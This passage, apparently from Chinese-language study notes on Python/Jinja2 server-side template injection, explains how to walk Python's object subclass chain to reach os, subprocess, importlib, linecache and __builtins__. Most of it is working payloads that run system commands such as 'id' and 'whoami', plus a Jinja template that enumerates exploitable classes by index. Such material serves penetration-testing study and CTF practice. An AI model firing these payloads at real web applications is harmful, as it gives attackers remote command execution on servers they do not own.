 ```python
{% endif %}
{% endfor %}
{% set tmp.idx = tmp.idx + 1 %}
{% endfor %}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717742686017-e75b03dd-618b-4e04-95c2-62f3839dec9d.png#averageHue=%23eef0f4&clientId=u15af632c-5e6d-4&from=paste&height=434&id=u7459a7cb&originHeight=542&originWidth=1876&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=93968&status=done&style=none&taskId=uf33b8db8-7661-4cb0-aa2a-07f38b76c12&title=&width=1500.8)

**寻找直接或间接导入了危险模块从而调用危险方法的以及可以导入其他模块的**
如：`os` `sys` `subprocess` `importlib` `linecache``_collections_abc` `timeit`
找到模块后调用就行，下面的Payload是后面部分，前面加上模块对应的子类`''.__class__.__bases__[0].__subclasses__()[id]`，其实都是围绕这`os subprocess`来做
```python
# os
.__init__.__globals__['os'].popen('id').read()

# sys
.__init__.__globals__['sys'].modules['os'].popen('id').read()

# subprocess
.__init__.__globals__['subprocess'].call('calc') # 无回显
.__init__.__globals__['subprocess'].run('id', stdout=-1).__dict__['stdout'].strip().decode('utf-8',  errors='replace')
.__init__.__globals__['subprocess'].Popen('whoami',shell=True,stdout=-1).communicate()[0].strip().decode('utf-8', errors='replace')
.__init__.__globals__['subprocess'].check_output('id').strip().decode('utf-8', errors='replace')

# importlib
.__init__.__globals__['importlib']["import_module"]("os")["popen"]("id").read()

# linecache 
.__init__.__globals__['linecache']['sys'].modules['os'].popen('id').read()
```
寻找导入了危险模块的类
```python
{% set tmp = namespace(idx=0, obj=''.__class__.__bases__[0], ms=['os','sys','subprocess']) %}
{% for k in tmp.obj.__subclasses__() %}
{% if '__globals__' in tmp.obj.__dir__( k.__init__ ) %}
{% for m in tmp.ms %}
{% if m in k.__init__.__globals__.keys() %}
<li>{{ m }} | {{ k.__class__ }} {{ k.__module__ }} {{ k.__name__ }} | {{ tmp.idx }} </li>
{% endif %}
{% endfor %}
{% endif %}
{% set tmp.idx = tmp.idx + 1 %}
{% endfor %}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717742661626-e635cc6e-c2ae-4be8-a658-08174d7aa5ad.png#averageHue=%23ebeff3&clientId=u15af632c-5e6d-4&from=paste&height=542&id=u50034b90&originHeight=677&originWidth=1866&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=252329&status=done&style=none&taskId=u0d484ada-ad04-44c9-8a4e-d3161bfe1cb&title=&width=1492.8)
这里有一个比较特殊的模块`__builtins__`，`__builtins__` 模块是 Python 中的一个内置模块，它包含了一些内置函数、异常和类型。这些函数、异常和类型可以在 Python 中直接访问，而不需要导入任何模块。  
所以由这么一个万能的方法：在内建模块里直接调用`eval`或者`exec`函数来执行 Python 代码段，在代码段中导入模块实现命令执行。
```python
[].__class__.__base__.__subclasses__()[id].__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()")
```
关于 Payload 中的方法、属性可以查看 Python 的文档说明
[https://docs.python.org/zh-cn/3/reference/datamodel.html](https://docs.python.org/zh-cn/3/reference/datamodel.html)
参考文章：
[Python 格式化字符串漏洞（Django为例） | 离别歌](https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html)
 [奇安信攻防社区-flask SSTI学习与总结](https://forum.butian.net/share/1371)
[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/topic_detail/241844424828441)
